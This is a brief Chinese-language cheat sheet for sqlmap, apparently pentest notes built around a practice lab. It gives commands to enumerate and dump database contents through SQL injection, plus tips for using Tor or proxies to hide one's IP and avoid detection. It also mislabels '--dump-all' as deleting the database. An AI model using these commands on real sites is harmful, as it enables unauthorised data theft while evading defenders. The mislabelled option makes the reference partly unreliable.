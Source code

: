 ## 基本语法

```shell
sqlmap -u "url" --dbs #--dbs作用是爆出所有数据库名字

sqlmap -u "url" -p 要测试的参数 -d 数据库类型 -D要测试的数据库名称 -T要测试的表名称 -C 要测试的列名称

```

## 将请求作为文件，指定sqlmap使用

例如需要cookie，或者post值，添加xff头等情况，可以先在burp中保存请求包为一个文件，然后

```shell
sqlmap -r 1.txt --dbs
```

## 常用参数

`-p`参数用于指定注入点，例如，如果您的目标站点是`http://www.example.com/Less-1/?id=1`，则可以使用以下命令来指定注入点：`sqlmap -u "http://www.example.com/Less-1/?id=1" -p id`

```bash
-u             #指定url
-r             #指定文件
-p             #指定注入点
--cookie       #指定cookie
--dbs          #注入库名
-D            #指定库名
--tables       #注入表名
-T             #指定表名
--columns      #注入列名
-C             #指定列名
--dump         #注入数据
--dump-all     #掉库（删库）
```

## 避免429 too many requests

1. 使用代理服务器：使用代理服务器可以隐藏您的真实IP地址，从而避免被检测到。您可以使用Tor或其他代理服务器来隐藏您的IP地址。
2. 调整请求速率：您可以通过调整请求速率来减少请求的数量。这可以通过在命令行中使用`--delay`选项来实现。例如，使用`--delay=1选项将在每个请求之间添加1秒的延迟。
3. 调整线程数：您可以通过调整线程数来减少请求的数量。这可以通过在命令行中使用`--threads`选项来实现。例如，使用`--threads=1`选项将只使用一个线程进行扫描。